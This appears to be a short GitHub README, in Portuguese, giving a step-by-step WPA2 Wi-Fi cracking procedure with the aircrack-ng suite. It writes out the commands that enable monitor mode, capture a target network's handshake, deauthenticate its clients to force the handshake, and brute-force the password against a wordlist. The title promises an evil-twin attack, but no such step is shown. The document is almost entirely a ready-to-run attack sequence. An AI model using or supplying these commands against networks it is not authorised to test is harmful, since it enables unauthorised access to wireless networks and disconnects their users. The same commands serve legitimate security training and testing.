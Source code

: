 # Wifi-WPA2-Evil-Twin-Attack--aircrack-ng
![image](https://github.com/user-attachments/assets/0ce8e3d4-c42c-4ca3-8845-268b0c89843f)
![image](https://github.com/user-attachments/assets/a08cb55d-3a44-416b-8fd2-9d746264a2c9)

1-Capturar o handshake

ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
airodump-ng --essid-regex "Red*" -a wlanmon0
airodump-ng wlan0mon
mkdir wpa
cd wpa
airodump-ng --bssid BSSIDTARGET -c 11 -w cvr wlan0mon 

2-Desautenticar para forçar o handshake

aireplay-ng -0 1 -a TARGETBSSID wlan0mon        (-0 = tipo do ataque(deauth) 1 = 1 pacote de desautenticação) (-a 00:17:9A:35:53:22 = acess point + bssid)

3-Brute force

aircrack-ng -b TARGETBSSID -w /usr/share/wordlists/dirb/big.txt cvr-01.cap

